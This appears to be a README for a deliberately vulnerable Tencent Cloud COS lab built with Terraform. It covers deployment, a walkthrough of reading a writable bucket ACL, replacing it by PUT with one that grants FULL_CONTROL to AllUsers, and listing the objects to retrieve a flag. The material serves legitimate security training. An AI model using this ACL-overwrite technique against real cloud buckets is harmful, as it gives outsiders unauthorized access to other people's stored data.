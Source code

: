 # Tencent Cloud COS Bucket ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the Tencent Cloud COS bucket ACL is writable.

After you build an environment using Terraform, users can access COS resources that are otherwise unreadable by modifying the Bucket ACL policy.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

Edit the `terraform.tfvars` file and write your `tencentcloud_secret_id`and`tencentcloud_secret_key` in the file

```shell
vim terraform.tfvars
```

> You can create and view your SecretKey on the [API Key Management](https://console.cloud.tencent.com/cam/capi) of the Tencent Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Bucket ACL read and write permissions.

## Vulnerability Utilization

List Object, return access denied

![image](../../../images/1652347780.png)

Attempt to read the Bucket's ACL policy

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![image](../../../images/1652347858.png)

Try to use the PUT method to modify the ACL policy of the Bucket.

The original ACL policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

New ACL Policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![image](../../../images/1652348202.png)

Try traversing the Object again, you can see that it can be traversed already, which means that the ACL policy just uploaded is in effect.

In the response message, you can see the flag.

![image](../../../images/1652348264.png)

## Destroy the environment

```shell
terraform destroy
```
